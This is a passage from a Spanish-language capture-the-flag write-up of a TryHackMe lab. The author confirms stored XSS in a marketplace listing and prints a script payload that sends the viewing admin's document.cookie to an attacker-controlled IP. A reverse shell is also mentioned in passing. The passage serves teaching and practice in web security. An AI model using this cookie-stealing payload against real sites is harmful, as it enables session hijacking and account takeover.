 Este lo podemos activar desde las herramientas del navegador y dejarlo funcional para posteriormente subir una reverse shell, pero no vale la pena hacerlo porque no nos funcionará

Entonces ya que podemos crear publicaciones con el contenido que queramos probé con XSS a ver si se interpretaba el código en la publicación

<p align="center">
<img src="/assets/images/thm-writeup-the-marketplace/img6.png">
</p>

y comprobamos que funcionó

<p align="center">
<img src="/assets/images/thm-writeup-the-marketplace/img7.png">
</p>

Ya sabiendo que es vulnerable y recordando que podemos reportar publicaciones al usuario administrador, pensé en que los tiros iban por un CSRF, así que creé una publicación con el siguiente contenido:

```html
<script>document.write("<img src='http://10.9.242.217/imagen.jpg?cookie=" + document.cookie + "'>")</script>
```

<p align="center">